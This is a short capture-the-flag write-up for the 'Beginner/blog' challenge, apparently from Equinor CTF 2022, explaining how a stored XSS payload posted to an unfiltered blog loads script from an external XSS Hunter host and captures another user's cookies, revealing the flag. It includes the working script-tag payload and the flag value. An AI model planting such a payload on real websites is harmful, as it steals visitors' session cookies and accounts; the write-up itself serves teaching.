




# Beginner/blog

> Author: [@hagronnestad](https://github.com/hagronnestad)
> 
> This writeup is also available as a webpage here: [https://heinandre.no/ctf-equinor-22/beginner-blog/](https://heinandre.no/ctf-equinor-22/beginner-blog/)



The website is a simple blog. We register a user; `test:test` and login.

Then we create a blog post with an `XSS`-payload. This task has no input filtering so a simple payload is enough. I'll use `https://xsshunter.com/app`.

```js
<script src=https://kahari.xss.ht></script>
```

Here we see our post with the hidden `<script>`-tag.



Now we wait for another user to trigger our payload. After waiting for a bit we get a callback on `https://xsshunter.com/app`:



The flag can be found in the "Cookies"-section:



## Flag

```
EPT{I_never_sleep}
```
